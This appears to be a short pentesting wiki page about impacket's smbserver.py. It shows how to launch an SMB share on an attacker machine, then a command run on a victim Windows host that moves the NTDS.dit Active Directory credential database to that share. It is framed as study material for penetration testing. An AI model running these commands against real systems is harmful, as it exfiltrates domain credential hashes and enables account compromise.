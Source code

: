 ```yaml
---
title: smbserver - from impacket
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting windows 
  - server
  - impacket
---
```


# smbserver - from impacket

Simple SMB Server example. [See impacket](impacket.md).


## Installation

Download from: [https://github.com/fortra/impacket/blob/master/examples/smbserver.py](https://github.com/fortra/impacket/blob/master/examples/smbserver.py)


## Basic usage


Launch smbserver in our attacker machine:

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/username/Documents/
```

Now, from PS in the victim's windows machine we could upload a folder to the shared folder in the attacker machine just by running:

```powershell
cmd.exe /c move C:\NTDS\NTDS.dit \\$ip\CompData
```

